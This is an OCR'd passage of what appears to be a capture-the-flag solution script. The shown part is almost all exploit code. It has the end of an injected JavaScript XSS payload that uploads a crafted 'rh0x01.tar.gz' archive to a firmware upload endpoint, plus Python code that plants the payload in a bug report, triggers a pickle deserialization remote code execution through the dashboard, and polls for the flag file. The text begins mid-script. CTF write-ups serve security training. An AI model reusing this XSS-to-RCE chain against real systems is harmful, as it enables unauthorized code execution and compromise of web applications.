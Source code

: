 ```python
for (let i = 0; i < slice.length; i++) {
byteNumbers[i] = slice.charCodeAt(i);
}

const byteArray = new Uint8Array(byteNumbers);
byteArrays.push(byteArray);
}

const blob = new Blob(byteArrays, {type: contentType});

var formData = new FormData();
formData.append('file', blob, 'rh0x01.tar.gz');

var xhr = new XMLHttpRequest();
xhr.open('POST','/api/firmware/upload', true);
xhr.send(formData);
</script>
""" % b64_file

print('[+] Sending bug report with XSS payload..')
requests.post(
    f'{hostURL}/api/firmware/report',
    cookies={"session": cookie},
    json={'module_id': 1, 'issue': xss_payload}
)

print('[+] Triggering Pickle rce..')
requests.get(f'{hostURL}/dashboard',cookies={"session": sid})

flag = ''
while not flag:
    flag_resp = requests.get(f'{hostURL}/static/flag.txt')
    if flag_resp.status_code == 200:
        flag = flag_resp.text
    time.sleep(5)

print(f'[+] Flag: {flag}')
```

# Flag

N/A
